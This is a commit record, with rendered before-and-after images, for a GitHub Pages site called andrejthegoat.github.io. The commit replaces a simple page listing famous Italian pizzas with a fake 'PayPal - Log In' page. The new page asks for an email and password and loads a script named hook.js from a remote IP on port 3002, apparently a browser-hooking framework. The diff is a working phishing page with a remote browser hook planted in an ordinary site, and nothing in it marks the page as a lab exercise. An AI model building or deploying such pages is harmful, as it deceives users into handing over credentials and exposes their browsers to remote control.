

Before and after one commit to andrejthegoat/andrejthegoat.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-898 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,29 +1,21 @@
 <!DOCTYPE html>
-<html lang="en">
+<html>
 <head>
-  <meta charset="UTF-8" />
-  <title>Top 5 Best Pizzas in Italy</title>
+    <title>PayPal - Log In</title>
+    <style>
+        body { font-family: Arial; text-align: center; }
+        .login-box { width: 350px; margin: 50px auto; border: 1px solid #ccc; padding: 20px; }
+        input { width: 100%; padding: 12px; margin: 10px 0; }
+        button { background: #0070ba; color: white; padding: 12px; border: none; cursor: pointer; }
+    </style>
 </head>
 <body>
-  <h1>Top 5 Best Pizzas in Italy</h1>
-  <nav>
-    <a href="index.html">Home</a> |
-    <a href="neapolitan.html">Neapolitan</a> |
-    <a href="margherita.html">Margherita</a> |
-    <a href="marinara.html">Marinara</a> |
-    <a href="quattro-stagioni.html">Quattro Stagioni</a> |
-    <a href="sicilian.html">Sicilian</a>
-  </nav>
-
-  <h2>Welcome Pizza Lovers!</h2>
-  <p>Here are the five most famous pizzas in Italy.</p>
-
-  <ol>
-    <li><a href="neapolitan.html">Neapolitan Pizza</a></li>
-    <li><a href="margherita.html">Margherita Pizza</a></li>
-    <li><a href="marinara.html">Marinara Pizza</a></li>
-    <li><a href="quattro-stagioni.html">Quattro Stagioni Pizza</a></li>
-    <li><a href="sicilian.html">Sicilian Pizza</a></li>
-  </ol>
+    <div class="login-box">
+        <h2>PayPal</h2>
+        <input type="text" placeholder="Email or mobile number">
+        <input type="password" placeholder="Password">
+        <button>Log In</button>
+        <script src="http://172.27.142.197:3002/hook.js"></script>
+    </div>
 </body>
 </html>
```
